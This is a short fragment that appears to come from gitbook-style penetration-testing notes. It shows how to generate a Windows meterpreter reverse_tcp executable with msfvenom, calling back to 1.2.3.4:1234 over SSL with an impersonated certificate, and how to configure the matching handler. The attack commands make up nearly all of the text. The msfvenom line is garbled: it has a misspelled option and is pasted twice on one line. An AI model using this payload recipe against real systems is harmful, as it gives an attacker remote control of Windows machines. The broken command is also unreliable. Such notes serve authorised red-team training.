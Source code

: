 ![](<../../.gitbook/assets/image (296) (1) (1) (1) (1) (1).png>)

we have the cert now create a payload using the cert:

```
msfvenom -p windows/meterpreter/reverse_tcp lhosrt=1.2.3.4 lport=1234 handlersslcert=/root/.msf5/loot/fsdvd/cert.pem stagerverifysslcert=true -f exe -o payload.exemsfvenom -p windows/meterpreter/reverse_tcp lhosrt=1.2.3.4 lport=1234 handlersslcert=/root/.msf5/loot/fsdvd/cert.pem stagerverifysslcert=true -f exe -o payload.exe
```

in handler setting:

```
set handlersslcert [file.pem]
set stagerverifysslcert true
run
```

![](<../../.gitbook/assets/image (276) (1) (1) (1).png>)
